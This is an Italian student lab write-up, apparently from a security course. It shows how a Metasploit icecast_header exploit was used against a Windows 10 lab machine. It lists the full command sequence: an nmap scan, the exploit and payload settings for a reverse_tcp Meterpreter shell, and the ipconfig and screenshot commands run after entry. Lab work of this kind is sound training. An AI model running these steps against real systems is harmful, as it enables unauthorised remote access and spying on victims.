

# Consegna S7/L4: Utilizzo di Metasploit per sfruttare Icecast su Windows 10

## 📝 **Introduzione**
Questa relazione documenta l'uso di Metasploit per ottenere una sessione **Meterpreter** su un sistema Windows 10 vulnerabile con Icecast in esecuzione. L'obiettivo era sfruttare una vulnerabilità nota di Icecast per:

- 📍 Identificare l'indirizzo IP della vittima.
- 🖼️ Acquisire uno screenshot del desktop della vittima.

## 🛠️ **Setup dell'ambiente**

- **Macchina attaccante:** Kali Linux  
  - **IP:** `192.168.50.165`
- **Macchina vittima:** Windows 10 con Icecast in esecuzione  
  - **IP:** `192.168.50.6`
- **Strumenti utilizzati:** Metasploit Framework

## 🔍 **Analisi e Preparazione**
Prima di iniziare l'attacco, ho verificato che il servizio Icecast fosse attivo sulla macchina Windows:

1. Ho avviato Icecast sulla macchina Windows, confermando che fosse in ascolto sulla porta predefinita `8000`.
2. Con un rapido **Nmap**, ho controllato che la porta fosse effettivamente aperta:
   ```bash
   nmap -p 8000 192.168.50.6
   ```
   - Risultato: la porta era aperta e il servizio Icecast attivo.

## ⚙️ **Esecuzione dell'attacco**

1. **Avvio di Metasploit**
   Ho avviato il framework Metasploit sulla macchina Kali con il comando:
   ```bash
   msfconsole
   ```

2. **Caricamento dell'exploit**
   Ho scelto l'exploit `icecast_header` specifico per Icecast:
   ```bash
   use exploit/windows/http/icecast_header
   ```

3. **Configurazione dei parametri**
   Ho configurato le seguenti opzioni per l'attacco:
   ```bash
   set RHOSTS 192.168.50.6
   set RPORT 8000
   set payload windows/meterpreter/reverse_tcp
   set LHOST 192.168.50.165
   set LPORT 4444
   ```

4. **Lancio dell'exploit**
   Dopo aver verificato le configurazioni con `show options`, ho eseguito l'exploit:
   ```bash
   exploit
   ```
   - **Risultato:** Sessione Meterpreter aperta con successo!

## 🎯 **Obiettivi raggiunti**

1. **Identificazione dell'indirizzo IP**
   Ho utilizzato il comando `ipconfig` nella sessione Meterpreter per visualizzare l'indirizzo IP della vittima:
   ```bash
   ipconfig
   ```
   - **Output:** Mostrava l'indirizzo IP della vittima `192.168.50.6`.

2. **Acquisizione dello screenshot**
   Per ottenere un'immagine del desktop della vittima, ho eseguito:
   ```bash
   screenshot
   ```
   - **Risultato:** Lo screenshot è stato salvato con successo sulla macchina attaccante.

   

## 🤔 **Riflessioni personali**

Questo esercizio mi ha permesso di comprendere meglio:

- 🕵️‍♂️ L'importanza della ricognizione e della preparazione prima di eseguire un exploit.
- 🔒 Le implicazioni di sicurezza di servizi non aggiornati come Icecast.
- 🛡️ La necessità di un approccio etico nell'uso di strumenti potenti come Metasploit.

La combinazione di analisi, configurazione accurata e utilizzo degli strumenti giusti ha reso possibile il successo dell'attacco. 

## 📂 **Struttura del progetto**

- `README.md`: Questo file, documentazione dell'esercizio.
- `MeterpreterWin10.png`: Screenshot catturato tramite Meterpreter.

## 🚀 **Conclusioni**

Questo esercizio dimostra quanto sia cruciale mantenere aggiornati i sistemi per prevenire vulnerabilità note. Come aspirante Ethical Hacker, continuo a rafforzare le mie competenze per identificare e mitigare tali rischi.

---
**Autore:** Sebastiano  
**Data:** 19 dicembre 2024
